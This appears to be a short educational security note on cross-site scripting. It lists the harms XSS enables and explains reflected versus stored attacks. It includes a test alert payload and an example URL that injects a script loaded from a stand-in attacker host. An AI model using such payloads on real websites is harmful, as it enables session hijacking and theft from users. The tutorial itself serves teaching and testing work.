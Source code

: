 # Cross-site scripting

Cross-site scripting \(XSS\) allows attackers to inject malicious scripts into a webpage. It's usually caused by insufficient input validation and improper encoding of user input that is displayed on web pages. Using XSS, attackers can achieve the following:

* Hijack accounts and sessions
* Steal sensitive information
* Modify page content and deface websites
* Redirect users to another webpage
* Record keystrokes
* Redirect to websites that exploit browser vulnerabilities
* Trick users into downloading files or entering information \(e.g. via phishing\)

## Basic technique

Put this in a form input field and see if it pops an alert box:

```text
<script>alert("hello");</script>
```

This is an example of reflected XSS. A stored XSS attack would mean the malicious script was permanently stored in the database \(e.g. as a comment on a discussion board\).

JavaScript can also be injected through a URL, which an unsuspecting person might click in an email:

```text
https://example.com/test.php?val=<script src=”http://evil.host/evil.js”></script>
```

## Further reading

* [XSS payloads](https://github.com/pgaijin66/XSS-Payloads/blob/master/payload.txt)
* [5 practical scenarios for XSS attacks](https://pentest-tools.com/blog/xss-attacks-practical-scenarios/)
* [Using Burp Scanner to find XSS issues](https://support.portswigger.net/customer/portal/articles/1965737-using-burp-scanner-to-find-cross-site-scripting-xss-issues)


